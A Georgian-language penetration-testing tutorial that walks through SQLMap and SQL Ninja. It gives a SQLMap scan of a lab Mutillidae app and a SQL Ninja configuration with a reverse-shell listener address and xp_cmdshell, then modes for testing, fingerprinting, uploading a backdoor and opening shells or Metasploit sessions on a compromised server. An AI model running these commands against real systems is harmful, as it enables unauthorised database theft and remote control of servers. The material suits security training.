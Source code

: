 SQL ინექციის შესახებ გაეცანით http://hakipedia.com/index.php/SQL_Injection

# SQLMap

ეს ხელსაწყო ახორციელებს სკანირებას, აღმოაჩენს და ახორციელებს გარკვეული URL-ზე SQL ინექციის ექსპლუატაციას.
მხარდაჭერილი მონაცემების ბაზებია: MS-SQL, MySQL, Oracle, and PostgreSQL, DB2, Informix, Sybase, InterBase, and MS-Access. SQLMap იყენებს SQL ინექციის 4 ტექნიკას:
  - Inferential blind SQL injection
  - UNION query SQL injection
  - stacked queries
  - time-based blind SQL injection.

მახ შეუძლია მონაცემების ბაზის ანაბეჭდის დადგენა, ბაზების სახელების დადგენა, მონაცემების ნახვა, პსხვერპლის ფაილურ სისტემასთან წვდომა და მსხვერპლის ოპერაციულ სისტემაში ბრძანების გაშვება. დამატებით შეუძლია Burp proxy-ს ან WebScarab-ის ლოგებით შეადგინოს მსხვერპლების. აგრეთვე შეუძლია მსხვერპლების აღმოჩენა გუგლის Google dork-ების გამოყენებით.

Google Hacking Database (GHDB): http://www.hackersforcharity.org/ghdb/

გაეცანი მისი მოხმარების დოკუმენტაციას.

```
tutashxia@kali ~> sqlmap -h
```

ტესტირება:

```
tutashxia@kali ~> sqlmap -u "http://192.168.0.30/mutillidae/index.php?page=view-someones-
blog.php" --forms --batch --dbs
```

  * –u მიუთითებს სატესტო URL-ს
  * --forms მიუთითებს მსხვერპლის ვებ გვერდზე form field-ის გამოყენებას
  * --batch მიუთითებს რომ ვებ გვერდზე form-ის დეფოლტი არჩევანი ქნას
  * --dbs მიუთითებს რომ მანაცემის ბაზების სახელები დაადგინოს.


# SQL Ninja

SQL Ninja არის SQL ინექციის განსახორციებლად მხოლოდ MS-SQL Server-ებთან.
წარმატებული SQL ინექციის შემთხევაში მას შეუძლია გაუშვას ინტერაქტიული შელი. ამისთვის იგი იყენებს სერვერის ანაბეჭდს, პაროლის გამოცნობას brute force-ით, პრივილეგიის აღმატებას, შურეული ბექდორის ატვირთვას, პირდაპირ შელს, backscan connect shell (ფაირვოლის გვერდის ავლით), reverse shell, DNS ტუნელიგს, ერთი ბრძანების გაშვევას, და Metasploit-ის ინტეგრირებას. ანუ ეს ხელსაწყო არა მარტო SQL ინექციებს ეძებს არამედ ასეთ სისტეებს ოყენებს რომ მსხვერპლის ოპერაციულ სისტემაზე წვდომა დაამყაროს.


ჯერ კონფუგურაციის ფაილის კოპიოს უნდა შეუცვალოთ სახელწოდება:

```
tutashxia@kali ~> cd /usr/share/doc/sqlninja/
tutashxia@kali ~> gzip –d sqlninja.conf.example.gz
tutashxia@kali ~> cp sqlninja.conf.example.gz /usr/share/sqlninja/sqlninja.conf
```

შემდეგ ამ კონფიგურაციის ფაილში უნდა შეიტანოთ ცვლილებები სამსვერპლო აპლიკაციის მიხედვით.
მაგალითად:

```
tutashxia@kali ~> vim sqlninja.conf
...
# Host (required)
host = 127.0.0.1
# Port (optional, default: 80)
port = 80
# Vulnerable page (e.g.: /dir/target.asp)
page = /showforum.asp
stringstart = id=0;
# Local host: your IP address (for backscan and revshell modes)
lhost = 192.168.0.3
msfpath = /usr/share/exploits/framework3
# Name of the procedure to use/create to launch commands. Default is
# "xp_cmdshell". If set to "NULL", openrowset+sp_oacreate will be used
# for each command
xp_name = xp_cmdshell
```

შემდეგ გაანხორციელე შეტაკება:

```
tutashxia@kali ~> sqlninja -m t
```

შემდეგ გაანხორციელე ანაბეჭდის დადგენა და სხვა ინფორმაციების მოპოვება MS-SQL Server-ის და ოპერაციული სისტემის შესახებ:

```
tutashxia@kali ~> sqlninja -m f
```

წარმატებული შეტაკების შემდეგ Metasploit-ით კავშირის დამყარება გატეხილ სერვერთან:

```
tutashxia@kali ~> sqlninja -m u
```

ატვირთული ბექდორის ხმარებისთვის s/dirshell , k/backscan , ან r/revshell. კიდე არის m/metasploit რომლითაც გრაფიკული ინტერფეისით მიწვდები გატეხილ სერვერს, SQL Ninja მოქმედებს როგორც Metasploit-ის შუამავალი.
დამატებითი ინფორმაციისთვის: http://sqlninja.sourceforge.net/sqlninja-howto.html .
